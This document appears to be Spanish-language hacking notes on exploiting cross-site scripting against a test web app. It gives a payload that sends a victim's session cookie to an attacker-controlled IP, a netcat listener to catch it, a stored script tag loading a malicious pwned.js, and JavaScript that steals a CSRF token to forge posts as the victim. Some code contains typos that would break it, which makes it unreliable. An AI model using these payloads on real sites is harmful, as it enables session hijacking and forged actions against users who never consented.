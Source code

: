 ```bash
❯ python -m SimpleHTTPServer               # Nos montamos un servidor http 80 para que la victima acceda al archivo malicioso 
```

## Cookie Hijacking 

```javascript 
// Podemos mandar todo el payload en una sola url y mantenernos en escucha para cuando sea ejecutado obtengamos la cookie de sesion 

// Colocamos este payload en donde se acontece el XSS reflejado en la pagina y de ahi obtenemos la url final, la cual podemos mandar a la maquina victima para hacer el robo de su sesion 
<script>new Image().src='http://IP_Atacante:443/?cookie=' + encodeURI(document.cookie);</script> 
```

```bash 
❯ nc -nlvp 443      # Nos ponemos en escucha para recibir la cookie
```

## Victima cree un post en una web 

```javascript
// 1. Esto lo colocaremos en la web de prueba y crearemos la publicación

<script src="http://192.168.68.111/pwned.js"></script>  // Colomos la IP de atacante y el nombre del archivo malicioso
```

```javascript
// Esto se usa una vez obtenido la 'csrf_token y value', los datos los obtenemos con BurpSuite al momento de crear una publicacion 

❯ nvim pwned.js                                                 // Creamos el archivo js

	var domain = "http://localhost:10007/newgossip";
	var req1 = new XMLHttpRequest();
	req1.open('GET', domain, false);
	req1.withcredentials = true;                               // Por si el Token es Dinamico y asi lo volvemos Estatico
	req1.send();
	
	var response = req1.responseText;
	var parser = new DOMParser();
	var doc = parser.parserFromString(respose, 'text/html');
	var token = doc.getElementsByName("_csrf_token")[0].value;
	
	var req2 = new XMLHttpRequest();
	var data = "title=HACKED&subtitle=HaCkEd&text=HAC%20ked&_csrf_token=" + token;   // El %20 es un espacio en urlencode
	req2.open('POST', 'http://localhost:10007/newgossip', false); 
	req2.withcredentials = true;
	req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	req2.send(data);
```

```bash
❯ python3 -m http.server 80            # Nos montamos un servidor http 80 para que el usuario pueda acceder a nuestro archivo malicioso 
```



